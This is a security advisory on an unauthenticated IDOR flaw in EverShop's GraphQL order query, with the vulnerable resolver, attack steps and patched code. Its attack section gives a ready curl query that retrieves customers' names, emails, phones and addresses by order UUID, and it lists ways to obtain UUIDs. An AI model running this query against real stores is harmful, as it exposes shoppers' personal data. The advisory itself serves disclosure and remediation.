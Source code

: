 # Evershop Unauthorized Order Information Access (IDOR)

# Security Advisory: Unauthorized Order Information Access (IDOR)

- **CVE ID:** CVE-2025-XXXXx
- **Product:** [EverShop E-Commerce Platform](https://github.com/evershopcommerce/evershop)
- **Vulnerability Type:** Insecure Direct Object Reference (IDOR)
- **Severity:** HIGH
- **CVSS v3.1 Score:** 7.5
- **CWE:** CWE-639 (Authorization Bypass Through User-Controlled Key)
- **Disclosure Date:** 2025-10-23 UTC
  
---

## Executive Summary

A critical authorization vulnerability has been identified in EverShop's GraphQL API that allows any unauthenticated user to access complete order information, including customer personally identifiable information (PII), shipping addresses, billing details, and purchase history. This is a textbook Insecure Direct Object Reference (IDOR) vulnerability where the application fails to verify whether the requesting user has permission to access the requested order data.

---

## Vulnerability Details

### Description

The `order` GraphQL query resolver accepts an order UUID as input and returns complete order details without performing any authentication or authorization checks. An attacker who obtains or guesses a valid order UUID can retrieve sensitive customer information including:

- Customer full name, email address, and phone number
- Complete shipping address (street, city, province, postal code, country)
- Complete billing address
- Order total amount and payment status
- Detailed list of purchased products with prices
- Shipping and tracking information

### Affected Components

**File:** `/src/modules/oms/graphql/types/Order/Order.resolvers.js` (lines 7-14)

**Vulnerable Code:**

```javascript
Query: {
  order: async (_, { uuid }, { pool }) => {
    const query = getOrdersBaseQuery();
    query.where('uuid', '=', uuid);  // ❌ Only checks if UUID exists
    const order = await query.load(pool);  // ❌ No authorization check
    return order ? camelCase(order) : null;
  }
}
```

**Comparison with Secure Implementation:**

The codebase does contain a secure implementation for customer-owned orders:

```javascript
Customer: {
  orders: async ({ customerId }, _, { pool }) => {
    const orders = await select()
      .from('order')
      .where('order.customer_id', '=', customerId);  // ✅ Validates ownership
    return orders.map((row) => camelCase(row));
  }
}
```

This demonstrates that the developers understand proper authorization, but failed to apply it consistently across all query endpoints.

---

## Attack Vector

### Prerequisites

- **Authentication:** None required
- **Access Level:** Public (unauthenticated users)
- **Complexity:** Low
- **User Interaction:** None

### Attack Steps

**Step 1: Obtain Order UUID**

Order UUIDs can be obtained through various methods:
- Email order confirmation links (e.g., `https://[REDACTED]/order/view/{ORDER_UUID}`)
- Predictable order numbering combined with CVE-2025-XXXX-11
- Information disclosure through error messages
- Social engineering
- Brute force (UUIDs are predictable if using time-based generation)

**Step 2: Query Order Information**

Execute an unauthenticated GraphQL query:

```bash
curl -X POST 'https://[REDACTED]/api/graphql' \
  -H 'Content-Type: application/json' \
  -d '{
    "query": "query GetOrder($uuid: String!) { order(uuid: $uuid) { uuid orderNumber customerEmail customerFullName customerTelephone grandTotal { value } shippingAddress { fullName telephone address1 city province postcode country { name } } billingAddress { fullName telephone address1 } items { productName qty productPrice { value } finalPrice { value } } } }",
    "variables": {
      "uuid": "TARGET_ORDER_UUID"
    }
  }'
```

**Step 3: Receive Sensitive Data**

<img width="941" height="518" alt="image" src="https://github.com/user-attachments/assets/0696e74f-c43d-4cfb-aa30-1e44a42269cc" />


## Remediation

### Immediate Actions (Priority: CRITICAL)

**1. Apply Emergency Patch**

Implement authentication and authorization checks in the order query resolver:

```javascript
Query: {
  order: async (_, { uuid }, { pool, customer }) => {
    // ✅ Step 1: Verify user is authenticated
    if (!customer) {
      throw new Error('Unauthorized: Please login to view order');
    }

    const query = getOrdersBaseQuery();
    query.where('uuid', '=', uuid);

    // ✅ Step 2: Verify order ownership
    query.and('customer_id', '=', customer.customer_id);

    const order = await query.load(pool);

    if (!order) {
      throw new Error('Order not found or access denied');
    }

    return camelCase(order);
  }
}
```

**2. Alternative: Token-Based Access**

For guest checkout scenarios, implement a secure token mechanism:

```javascript
// Generate secure access token during order creation
const crypto = require('crypto');
const orderAccessToken = crypto.randomBytes(32).toString('hex');

await insert('order')
  .given({
    uuid: orderUuid,
    access_token: orderAccessToken,
    // ... other fields
  })
  .execute(connection);

// Validate token in query
Query: {
  order: async (_, { uuid, token }, { pool }) => {
    const query = getOrdersBaseQuery();
    query.where('uuid', '=', uuid);
    query.and('access_token', '=', token);  // ✅ Require valid token

    const order = await query.load(pool);
    return order ? camelCase(order) : null;
  }
}

// Include token in email links
const orderViewUrl = `https://[DOMAIN]/order/view/${orderUuid}?token=${orderAccessToken}`;
```
